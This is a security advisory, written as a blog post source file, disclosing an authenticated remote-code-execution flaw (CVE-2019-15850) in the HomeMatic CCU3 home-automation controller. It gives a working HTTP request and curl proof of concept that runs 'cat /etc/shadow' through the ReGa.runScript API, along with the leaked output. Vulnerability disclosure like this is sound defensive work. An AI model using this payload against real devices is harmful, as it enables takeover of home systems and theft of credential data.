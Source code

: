 ```yaml
---
layout: post
title: "Remote Code Execution in HomeMatic central CCU3"
date: 2019-10-01 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-15850"
cve_description: "The HomeMatic CCU3 firmware version 3.41.11 has a Remote Code Execution (RCE) vulnerability in the ReGa.runScript method of the WebUI component. An authenticated attacker can easily execute code and compromise the system."
cve_affectedVersion: "3.41.11"
cvss: "9.1"
cvss_vector: "3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:L"
softwarePatchLink: "Vendor will not change the concept of this JSON API function."
---
```


## Overview

- Vulnerability: Remote Code Execution (RCE)
- Vendor: eQ-3 AG
- Vendor Homepage: [https://www.eq-3.com/contact.html](https://www.eq-3.com/contact.html)
- Product: HomeMatic central CCU3
- Version: {{ page.cve_affectedVersion }}

## Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU3 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's [website](https://www.homematic-ip.com/produkte/detail/smart-home-zentrale-ccu3.html):
"The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). ..."

## Issue Description

While analyzing the implementation of the home automation system HomeMatic, one Remote Code Execution (RCE) vulnerability has been identified, which can be exploited in order to exploit the underlaying system. The vulnerability exists in the method 'ReGa.runScript' of the WebUI. The affected version is **{{ page.cve_affectedVersion }}**.

![Affected Version](/assets/CVE-2019-15850/CVE-2019-15850.HomeMatic.Version.JPG)

This vulnerability can be exploited by authenticated attackers with access to the web interface to execute system commands.

The following **HTTP request** illustrates this approach:

~~~ http
POST /api/homematic.cgi HTTP/1.1
Host: 192.168.0.125
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.125/pages/index.htm?sid=@KqlhlInB8S@&client=3
Content-Type: application/json
Content-Length: 199
Connection: close


{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"cat /etc/shadow\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "KqlhlInB8S"}}
~~~

The **HTTP Response** is:

~~~ http
HTTP/1.1 200 OK
CONTENT-TYPE: application/json; charset=utf-8
Content-Length: 411
Connection: close
Date: Sun, 01 Sep 2019 18:37:40 GMT
Server: lighttpd/1.4.50


{"version": "1.1","result": "root::10933:0:99999:7:::\ndaemon:*:10933:0:99999:7:::\nbin:*:10933:0:99999:7:::\nsys:*:10933:0:99999:7:::\nsync:*:10933:0:99999:7:::\nmail:*:10933:0:99999:7:::\nwww-data:*:10933:0:99999:7:::\nhalt:*:10933:0:99999:7:::\nuucp:*:10933:0:99999:7:::\noperator:*:10933:0:99999:7:::\nftp:*:10933:0:99999:7:::\nnobody:*:10933:0:99999:7:::\n_ntp:*:::::::\nsshd:*:::::::\n\r\n","error": null}
~~~

![POC](/assets/CVE-2019-15850/CVE-2019-15850.HomeMatic.RCE.JPG)

You can easily fire this **curl command** to illustrates this approach:

~~~ bash
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.0.125' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.0.125/pages/index.htm?sid=@KqlhlInB8S@&client=3' -H $'Content-Type: application/json' -H $'Content-Length: 199' -H $'Connection: close' \
    --data-binary $'{\"version\": \"1.1\", \"method\": \"ReGa.runScript\", \"params\": {\"script\": \"string stdout;string stderr;system.Exec(\\\"cat /etc/shadow\\\", &stdout, &stderr);WriteLine(stdout);\", \"_session_id_\": \"KqlhlInB8S\"}}' \
    $'http://192.168.0.125/api/homematic.cgi'
~~~

## Impact

This vulnerability affects the confidentiality / integrity / availability of the system/data. This allows an attacker to read / manipulate the system. If an attacker is aware of the security issue, he or she may steal important data or compromise the system. With this vulnerability, a complete system compromise is possible.

## Remediation

In order to avoid this vulnerability, it's suggested to disable the WebUI of HomeMatic. The HomeMatic-WebUI have many other security issues.

{%if page.softwarePatchLink %}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: {{ page.cvss_vector }}

## Credit

- {{ site.owner }}

## Vulnerability Disclosure Timeline

- 2019-September-01: Discovered vulnerability
- 2019-September-04: Vendor Notification
- 2019-September-10: Vendor Response (Vendor will not change the concept)
- 2019-October-01: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 {{ site.owner }} and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}